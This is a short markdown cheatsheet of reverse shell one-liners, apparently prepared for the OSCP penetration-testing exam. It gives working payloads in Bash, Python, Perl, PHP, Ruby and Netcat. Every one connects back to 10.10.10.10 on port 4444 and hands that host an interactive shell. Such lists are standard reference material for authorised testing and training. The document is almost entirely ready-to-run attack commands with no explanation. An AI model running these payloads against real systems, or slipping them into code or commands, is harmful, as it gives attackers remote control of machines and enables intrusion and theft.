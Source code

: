 # Exploitation Techniques Cheatsheet for OSCP

## Reverse Shells

### Bash
```bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'
```

### Python
```python
# Python 2
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Python 3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Perl
```perl
perl -e 'use Socket;$i="10.10.10.10";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PHP
```php
php -r '$sock=fsockopen("10.10.10.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.10.10.10",4444);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.10.10.10",4444);system("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.10","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Netcat
```bash
nc -e /bin/sh 10.10.10.10 4444
nc -c /bin/sh 10.10.10.10 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f
```
